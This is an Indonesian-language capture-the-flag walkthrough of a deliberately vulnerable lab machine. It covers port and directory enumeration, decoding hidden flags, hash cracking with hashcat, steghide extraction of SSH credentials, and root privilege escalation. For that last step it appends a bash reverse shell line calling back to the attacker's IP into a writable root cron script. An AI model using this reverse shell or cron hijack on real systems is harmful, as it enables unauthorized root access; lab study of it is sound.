 Awali dengan enumerasi, disini digunakan rustscan agar lebih cepat
```
rustscan -a IP-target
...
Open 10.10.75.142:80
Open 10.10.75.142:6498
Open 10.10.75.142:65524
...
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack
6498/tcp  open  unknown syn-ack
65524/tcp open  unknown syn-ack
```

Selanjutnya bisa gunakan nmap untuk enumerasi service
```
nmap -A -p80,6498,65524 IP-target
...
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Selanjutnya coba buka 2 web yang ada `http://IP-target:80` dan `http://IP-target:65524`. Pada port 80 menggunakan `Nginx` dan 65524 menggunakan `Apache2`. Kita akan fokus ke port 80 terlebih dulu. 

Kita lakukan enumerasi dengan gobuster pada port 80
```
gobuster dir -u http://IP-target -w /usr/share/wordlists/dirb/small.txt -t 50
...
/hidden
...
```

Setelah itu karena isinya masih kosong, kita bisa lanjutkan untuk enumerasi
```
gobuster dir -u http://IP-target/hidden -w /usr/share/wordlists/dirb/small.txt -t 50
...
/whatever
```

Setelah kita buka dan lihat source pagenya, kita akan mendapat `<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>`, kita dapat decode dengan base64
```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64
...
flag...
```
kita dapatkan flag pertama

Selanjutnya kita dapat pergi ke port 65524 `http://IP-target:65524`. Jika kita perhatikan pada hasil nmap, kita dapat lihat bahwa `robots.txt` ada di port 65524, dan isinya seperti berikut
```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
setelah dicek dengan `hashid`, `a18672860d0510e5ab6699730763b250` ini diidentifikasikan salah satunya dengan md5, jadi kita dapat decode menggunakan tools online seperti [md5hashing.net](https://md5hashing.net/hash/md5/). Dan kita akan mendapat flag kedua.

Selanjutnya jika kita kembali ke index.html pada `http://IP-target:65524` dan melihat page source, kita akan mendapat 2 hal yang menarik
```
...
Apache 2 It Works For Me
	<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
...
...
...
			configuration files from their respective
			Fl4g 3 : ...
			*-available/ counterparts. These should be managed
...
```
kita mendapatkan `ObsJmP173N2X6dOrAgEAL0Vu` dan flag 3. Karena kita sudah mendapat hint "encoded with ba....", kita dapat gunakan [cyberchef.org](https://cyberchef.org/) dengan receipt `From Base..` yaitu dengan receipt `From Base[..,32-85]`, dan kita akan menemukan hidden dir untuk `http://IP-target:65524/<hasil_decode>`.

Jika kita pergi ke hidden dir tersebut, dan kita view page source, kita akan mendapat 2 hal yang menarik
```
...
<center>
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
</center>
```
jika kita cek `940d71..` dengan hashid, kita akan mendapat beberapa hasil identifikasi, dan salah satunya adalah **GOST R 34.11-94**. Kita dapat coba crack dengan hashcat
```
hashcat -a 0 -m 6900 "940d71.." easypeasy.txt
...
...
940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81:******
```

Selanjutnya jika kita cek file gambar **binarycodepixabay.jpg** dengan `steghide` dengan menggunakan password/passphrase dari hasil decode dengan hashcat sebelumnya.
```
steghide info binarycodepixabay.jpg                               
...
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secrettext.txt":
    size: 278.0 Byte
...
```
kita dapat informasi bahwa terdapat file **secrettext.txt** dalam gambar tersebut. Untuk extract file tersebut, kita dapat extract dengan cara
```
steghide extract -sf binarycodepixabay.jpg -p <passphrase_hasil_hashcat>
```
jika dilihat isinya, adalah seperti berikut
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```
kita dapat decode binary code tersebut untuk password memakai [cyberchef.org](https://cyberchef.org/). Setelah itu kita bisa login ke ssh dengan menggunakan creds tersebut `boring:<hasil_decode_dengan_cyberchef>`. Kita akan mendapat flag dari user jika sudah berhasil login.

Selanjutnya kita dapat coba privesc, tapi disini kita akan upload `linpeas.sh` (download [disini](https://github.com/carlospolop/PEASS-ng/releases)) ke target mesin agar lebih cepat.
- siapkan simple pyhton server `python3 -m http.server <port>` (in case `linpeas.sh` tidak di current dir, maka copas dulu ke current dir)
- lalu wget di mesin target `wget http://IP-target:<port>/linpeas.sh`
- ubah permission file `chmod +x linpeas.sh`
- run `./linpeas.sh`
hasilnya
```
╔══════════╣ Cron jobs
...
SHELL=/bin/sh                                                                                                                        
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin                                                                    
                                                                                                                                     
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly                                                                  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )                                  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )                                 
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )                                
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
...
...
╔══════════╣ Web files?(output limit)                                                                                                
/var/www/:                                                                                                                           
total 16K                                                                                                                            
drwxr-xr-x  3 root   root   4.0K Jun 15  2020 .                                                                                      
drwxr-xr-x 14 root   root   4.0K Jun 13  2020 ..                                                                                     
drwxr-xr-x  4 root   root   4.0K Jun 15  2020 html                                                                                   
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
...
```
dapat kita lihat bahwa akan ada cronjob `cd /var/www/ && sudo bash .mysecretcronjob.sh` yang mana akan run file tersebut sebagai root. Selain itu file **.mysecretcronjob.sh** editable oleh kita sebagai "boring". Kita dapat edit file tersebut dengan `nano .mysecretcronjob.sh` dan kita tambahkan line revshell
```
nano .mysecretcronjob.sh
...                                                                                                                                     
#!/bin/bash                                                                                                                          
# i will run as root                                                                                                                 
bash -i >& /dev/tcp/IP-local/<port> 0>&1
...
```
dengan mengubah `IP-local` dengan IP kita, dan `<port>` dengan port pilihan. Setelah itu kita bisa siapkan listener dengan
```
rlwrap ncat -lvnp <port>
```
setelah itu tunggu beberapa saat dan kita akan mendapat shell sebagai root
```
root@kral4-PC:~# whoami
whoami
root
root@kral4-PC:~# 
```
dan kita bisa bebas mencari flag terakhir, yang pastinya berada di `/root`